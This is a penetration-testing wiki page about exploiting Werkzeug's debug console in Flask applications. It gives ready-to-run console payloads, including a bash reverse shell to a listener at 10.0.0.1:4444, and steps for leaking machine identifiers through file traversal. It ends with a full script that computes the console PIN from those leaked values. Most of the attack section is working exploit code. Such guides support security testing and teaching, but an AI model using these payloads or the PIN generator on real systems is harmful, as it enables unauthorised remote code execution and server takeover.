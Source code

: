 # Werkzeug

## Theory

Werkzeug is a comprehensive [WSGI](https://wsgi.readthedocs.io/en/latest/) web application library. It began as a simple collection of various utilities for WSGI applications and has become one of the most advanced WSGI utility libraries. It is commonly used for Flask web application.

## Practice

### Console RCE

If debug is active you could try to access to `/console` endpoint or to trigger a Werkzeug error and gain RCE.

{% tabs %}
{% tab title="Exploit" %}
```python
__import__('os').popen('whoami').read();
import os; print(os.popen("whoami").read())

# Reverse shell
__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"').read()
```
{% endtab %}
{% endtabs %}

### Console PIN Exploit

In some occasions the **`/console`** endpoint is going to be protected by a pin. If you have a **file traversal vulnerability**, you can leak all the necessary info to generate that pin.

According to the Werkzeug [PIN generation source code](https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/\_\_init\_\_.py), here are the needed variables to generate the PIN code:

<details>

<summary>Needed variables</summary>

Variables needed to exploit the console PIN:&#x20;

```python
probably_public_bits = [
    username,
    modname,
    getattr(app, '__name__', getattr(app.__class__, '__name__')),
    getattr(mod, '__file__', None),
]

private_bits = [
    str(uuid.getnode()),
    get_machine_id(),
]
```

</details>

<details>

<summary>probably_public_bits</summary>

#### username

This is the user who started this Flask instance. You may find it in `/proc/self/environ`

#### modname

It's flask.app

#### getattr(app, '**name**', getattr (app .\_\_ class\_\_, '**name**'))

is Flask

#### getattr(mod, '\_\_file\_\_', None)

is the absolute path of `app.py` in the flask directory (e.g. `/usr/local/lib/python3.5/dist-packages/flask/app.py`). If `app.py` doesn't work, try `app.pyc` \
You may find this information in the Werkzeug error message.

</details>

<details>

<summary>private_bits</summary>

#### uuid.getnode()

is the MAC address of the current computer, str(uuid.getnode()) is the decimal expression of the mac address.

To find server MAC address, need to know which network interface is being used to serve the app (e.g. ens3). If unknown, leak `/proc/net/arp` for device ID and then leak MAC address at `/sys/class/net/<device id>/address`.

Convert **from hex address to decimal** representation by running in python e.g.:

```python
# It was 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

#### get\_machine\_id()

concatenate the values in `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` after the last slash (/).

To clarify, here is the code used by Werkzeug to generate the machine\_id

```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:                                                                                                  
    global _machine_id

    if _machine_id is not None:
        return _machine_id

    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id": 
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            with open("/proc/self/cgroup", "rb") as f:
                linux += f.readline().strip().rpartition(b"/")[2]
        except OSError:
            pass

        if linux:
            return linux

        # On OS X, use ioreg to get the computer's serial number.
        try:
```

</details>

Once all variables prepared, run exploit script to generate Werkzeug console PIN:

<details>

<summary>Generate the PIN</summary>

You can use the following code with previous values to generate a valid PIN code

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'web3_user',# username
    'flask.app',# modname
    'Flask',# getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/usr/local/lib/python3.5/dist-packages/flask/app.py' # getattr(mod, '__file__', None),
]

private_bits = [
    '279275995014060',# str(uuid.getnode()),  /sys/class/net/ens33/address
    'd4e6cb65d59544f3331ea0425dc555a1'# get_machine_id(), /etc/machine-id
]

#h = hashlib.md5() # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
#h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

</details>

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug" %}
